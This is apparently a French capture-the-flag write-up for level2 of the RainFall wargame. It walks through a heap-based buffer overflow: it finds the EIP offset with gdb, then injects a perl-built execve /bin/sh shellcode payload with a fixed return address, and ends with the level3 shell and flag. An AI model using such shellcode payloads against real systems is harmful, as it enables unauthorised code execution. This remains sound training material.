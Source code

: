 # level2

On ne vois rien qui lance un shell, et à priori la seule fonction exploitable sera `gets` avec un buffer overflow

En utilisant entre autres [cette resource](<https://medium.com/codex/buffer-overflows-shellcode-and-memory-corruption-51f546ab00ab>) on comprend qu'on va devoir injecter un shellcode dans notre buffer pour faire exécuter du code arbitraire à notre exécutable pour lui faire lancer un shell

L'idée, ça va etre d'écraser la variable `eip` (adresse de retour) avec notre shellcode, de cette manière, le binaire va exécuter notre code à la fin de la fonction `p` au lieu d'exit

Pour commencer, il faut qu'on trouve l'offset entre le début de notre buffer et `eip` afin de connaitre la taille du payload qu'on va devoir créer. Il y a plusieurs manières de le faire à la main comme expliqué dans l'article mentionné précédemment, mais pour ma part j'ai utilisé la solution de facilité: [cet incroyable outil](<https://wiremask.eu/tools/buffer-overflow-pattern-generator/>)

J'ai généré un pattern de 100 charactères, puis lancé l'exécutable avec `gdb`

```sh
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

On donne l'adresse retournée par `gdb` à l'outil et il nous donne l'offset: `80`

On doit donc créer un payload d'un total de `80 bytes` qui contient:
- notre shellcode
- des charactères servant de "padding" pour remplir le reste du buffer
- l'adresse de retour par laquelle on va remplacer `eip`

La petite subtilité sur cet exercice, c'est que la fonction `p` a un `if` qui nous empèche d'écraser `eip` sur la stack, en revanche, un appel à `strdup` est fait à la fin de la fonction, `strdup` utilisant `malloc`, on peut écraser `eip` sur la heap.

En utilisant la commande `ltrace`, on voit que le `strdup` retourne toujours la même adresse: `0x0804a008`

```sh
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
)                     = 0xbffff6fc
puts(""
)                                                          = 1
strdup("")                                                        = 0x0804a008
+++ exited (status 8) +++
```
C'est donc cette adresse que l'on va utiliser, de cette manière, `eip` pointera sur le début de notre buffer qui contient notre shellcode

Pour le shellcode, j'ai choisit [ce shell code](https://shell-storm.org/shellcode/files/shellcode-841.html) de 21 bytes que j'ai trouvé sur [shell-storm](https://shell-storm.org/shellcode)

On génère donc notre payload avec `perl`: 
```sh
echo $(perl -e 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" . "A"x59 . "\x08\xa0\x04\x08";') > /tmp/payload
```

Et on peut récupérer notre flag:

```sh
level2@RainFall:~$ cat /tmp/payload - | ./level2 
j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

